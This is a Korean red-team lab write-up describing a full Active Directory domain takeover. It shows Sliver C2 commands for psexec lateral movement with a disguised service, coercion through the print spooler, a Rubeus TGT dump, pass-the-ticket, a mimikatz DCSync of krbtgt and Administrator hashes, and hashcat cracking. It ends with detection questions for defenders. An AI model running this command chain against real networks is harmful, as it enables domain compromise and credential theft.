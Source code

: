 # 7. 도메인 장악 WEB01

이번 섹션에서는 다음과 같은 주제들을 다룬다:

* SharpHound 블러드하운드 정보수집 2
* Unconstrained Delegation - 강제 인증 + TGT 덤프
* 머신 계정을 이용한 DCSync

<figure><img src="../.gitbook/assets/AttackPath6-UnconstrainedDelegation-WEB01.drawio.png" alt=""><figcaption></figcaption></figure>

장악한 Rahat.Kuma 유저를 이용해 USWKSTN01에서 다시 한 번 블러드하운드를 실행한다.

```
sliver (TOUGH_BREADCRUMB) > inline-execute-assembly /root/funtimes.exe "-c All,Session --forcesecureldap --zipfilename 
crashdump2 --zippassword test --distinguishedname DC=us,DC=rt,DC=local"

2025-01-19T19:18:48.9070479+09:00|INFORMATION|Status: 621 objects finished (+621 31.05)/s -- Using 133 MB RAM
2025-01-19T19:18:48.9070479+09:00|INFORMATION|Enumeration finished in 00:00:20.7194148
2025-01-19T19:18:48.9502136+09:00|INFORMATION|Saving cache with stats: 33 ID to type mappings.
 7 name to SID mappings.
 4 machine sid mappings.
 10 sid to domain mappings.
 1 global catalog mappings.
2025-01-19T19:18:48.9693593+09:00|INFORMATION|SharpHound Enumeration Completed at 7:18 PM on 1/19/2025! Happy Graphing!

[+] inlineExecute-Assembly Finished
```

<figure><img src="../.gitbook/assets/5-bh-rahat-to-domain.png" alt=""><figcaption></figcaption></figure>

확인해보면 Rahat.Kuma가 ITAdmins 그룹 소속이고, 이 그룹은 거의 모든 서버에 로컬 관리자 권한을 갖고 있다. 그 중 WEB01 서버에는 Unconstrained Delegation 설정이 되어 있다. Unconstrained Delegation은 설계상 커버로스 6단계 인증 중 유저의 TGT를 받아올 수 있다.

유저가 Unconstrained Delegation 설정되어 있는 서버에 TGS-REQ을 통해 서비스 티켓을 요청할 때, 이 요청을 받은 도메인 컨트롤러는 TGS-REQ안의 SPN을 본 뒤, Unconstrained Delegation 설정되어 있는 서버라는 것을 확인 한뒤, 서비스 티켓을 발급할 때 유저의 TGT를 ST안에 넣어서 돌려준다. 이 TGT는 추후 Unconstrained Delegation 서버가 위임을 할 때 사용한다.

Unconstrained Delegation을 악용하는 방법에는 여러가지가 있지만, 강제 인증(Authentication Coercion)을 이용한 도메인 컨트롤러의 머신 계정 TGT를 훔쳐오는 방법이 가장 효과적이다. 바로 DC의 TGT를 이용해 DCSync를 진행할 수 있기 때문이다.

먼저 WEB01으로 횡적 이동을 한다. WEB01은 웹 서버 특성상 Outbound 웹 트래픽이 가능할 수 있겠지만, 그래도 서버들 간의 SMB 트래픽에 숨어들기 위해 Named Pipe + SMB로 이동한다.

```
sliver (TOUGH_BREADCRUMB) > pivots named-pipe --bind mojo.10968.11628.5896583801798593584 --allow-all

[*] Started named pipe pivot listener \\.\pipe\mojo.10968.11628.5896583801798593584 with id 2

sliver (TOUGH_BREADCRUMB) > profiles new --format service -p 10.2.30.100/pipe/mojo.10968.11628.5896583801798593584 uswkstn01-web01

[*] Saved new implant profile uswkstn01-web01

sliver (TOUGH_BREADCRUMB) > psexec -t 30 -p uswkstn01-web01 -s IIS-OnlineUpdater -d "Update IIS service without restart" web01.us.rt.local

[*] No builds found for profile uswkstn01-web01, generating a new one
[*] Sliver name for profile uswkstn01-web01: MULTIPLE_REPUTATION
[*] Uploaded service binary to \\web01.us.rt.local\C$\windows\temp\b0_publicity_c.exe
[*] Waiting a bit for the file to be analyzed ...
[*] Successfully started service on web01.us.rt.local (c:\windows\temp\b0_publicity_c.exe)
[*] Session 3730afb5 MULTIPLE_REPUTATION - tcp(127.0.0.1:50290)->2a06:98c0:3600::103->TOUGH_BREADCRUMB-> (web01) - windows/amd64 - Sun, 19 Jan 2025 10:48:17 UTC

[*] Successfully removed service IIS-OnlineUpdater on web01.us.rt.local
```

TGT 덤핑은 대부분 Rubeus monitor + 강제 인증으로 진행하는데, 안타깝게도 Sliver에서 Rubeus monitor 명령어를 돌리면 버그로 인해 해당 작업이 끝나지 않는 경우가 생긴다. 이런 경우에는 강제 인증을 먼저 진행하고, 곧바로 10\~20초 내에 바로 rubeus dump 명령어를 통해 덤프한다.

```
sliver (MULTIPLE_REPUTATION) > inline-execute-assembly /root/SharpSpoolTrigger.exe "udc01.us.rt.local web01.us.rt.local"

[*] Successfully executed inline-execute-assembly (coff-loader)
[*] Got output:

NdrClientCall2x64
[-]RpcRemoteFindFirstPrinterChangeNotificationEx status: 6

[+] inlineExecute-Assembly Finished

sliver (MULTIPLE_REPUTATION) > rubeus -- "dump /user:UDC01$ /service:krbtgt /nowrap"

    ServiceName              :  krbtgt/US.RT.LOCAL
    ServiceRealm             :  US.RT.LOCAL
    UserName                 :  UDC01$ (NT_PRINCIPAL)
    UserRealm                :  US.RT.LOCAL
    StartTime                :  1/19/2025 7:10:29 PM
    EndTime                  :  1/20/2025 5:10:29 AM
    RenewTill                :  1/26/2025 7:10:29 PM
    Flags                    :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
    KeyType                  :  aes256_cts_hmac_sha1
    Base64(key)              :  xluG04pzAE/2nnclISElb+evLXxwfvI4aQEyuwpxRPg=
    Base64EncodedTicket   :

      doIFgDCCBXygAwIBBaEDAgEWooIEijCCBIZhgg < ... 생략 ... >
```

이제 도메인 컨트롤러의 TGT를 획득했으니, 이를 이용해 DCSync로 US 도메인 전체를 장악한다.

```
// 현재 세션에 US 도메인 컨트롤러의 TGT 삽입 
sliver (TOUGH_BREADCRUMB) > rubeus --in-process -- "ptt /ticket:doIFgDCCBXygAwIBBaEDAgEWooIEijCCBIZhgg < ... 생략 ... >  

// DCSync를 이용해 KRBTGT 장악 
sliver (TOUGH_BREADCRUMB) > mimikatz "\"lsadump::dcsync /domain:us.rt.local /user:US\\krbtgt\""

Credentials:                                                                                                           
  Hash NTLM: bbcf6efd0bfe789536745a977499154a
    ntlm- 0: bbcf6efd0bfe789536745a977499154a
    lm  - 0: b7eaaefa4e82e6297c3289f706301b14
    
* Primary:Kerberos-Newer-Keys *         
    Default Salt : US.RT.LOCALkrbtgt    
    Default Iterations : 4096           
    Credentials                                            
      aes256_hmac       (4096) : 65cc3cd6251d871a4dd13c5964fa64a153607a21aabe2254c80f31ca11b6cf2f
      aes128_hmac       (4096) : 8a214f2fe3d55d7ab323ae42cb169f09

// DCSync를 이용해 Administrator 장악 
sliver (TOUGH_BREADCRUMB) > mimikatz "\"lsadump::dcsync /domain:us.rt.local /user:US\\Administrator\""

SAM Username         : Administrator
Credentials:
  Hash NTLM: 8846f7eaee8fb117ad06bdd830b7586c
* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-2EBRD4U9LK0Administrator
    Default Iterations : 4096 
    Credentials
      aes256_hmac       (4096) : c46d0bfa548523c3df83032ccaf86813a56955b0d7bd0a9345399c53fe263c78
```

Administrator의 해시를 크래킹 해보면 비밀번호가 나온다.

```
└─# hashcat -a 0 -m 1000 usadministrator.nt /usr/share/wordlists/rockyou.txt --show

8846f7eaee8fb117ad06bdd830b7586c:password
```

모든 공격이 끝나게 되면 아래와 같은 다이어그램이 나온다. DC 머신 계정의 TGT를 획득해 도메인을 향한 DCSync를 할 수 있고, 이를 통해 도메인 전체를 장악할 수 있게 된다.

<figure><img src="../.gitbook/assets/AttackPath7-DCSync-WEB01.drawio (1).png" alt=""><figcaption></figcaption></figure>

## 우리 회사는

* Unconstrained Delegation 서버를 운영하고 있는가? 있다면 망 분리, 또는 모니터링이 잘 되고 있는가?
* 도메인 컨트롤러를 향해 일어나는 강제 인증 (Print Spooler, Petitpotam, DFSCoerce, Shadowcoerce 등...)을 탐지할 수 있는가?
* DCSync가 도메인 컨트롤러가 아닌 호스트에서 도메인 컨트롤러의 머신 계정을 사용해 일어날 때, 이를 탐지할 수 있는가?


